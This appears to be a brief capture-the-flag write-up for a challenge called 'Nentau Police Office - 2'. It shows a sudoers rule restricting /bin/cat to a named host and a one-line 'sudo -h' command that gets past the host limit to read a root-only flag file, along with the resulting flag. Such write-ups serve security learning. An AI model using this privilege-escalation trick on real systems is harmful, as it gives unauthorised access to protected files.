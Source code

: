 # Nentau Police Office - 2

- flag2.txt permission
    - `-r--------   1 root     root       33 Feb 18 07:56 flag2.txt`
- sudoer file
    - `/etc/sudoers.d/sudoers-tsj`:

    ```
    tsjadmin workstation=(ALL:ALL) /bin/cat
    ```

- use sudo `-h` option to bypass host limit
    - `sudo -h workstation /bin/cat /flag*`
    - `TSJ{What_use_of_the_-h_option???}`
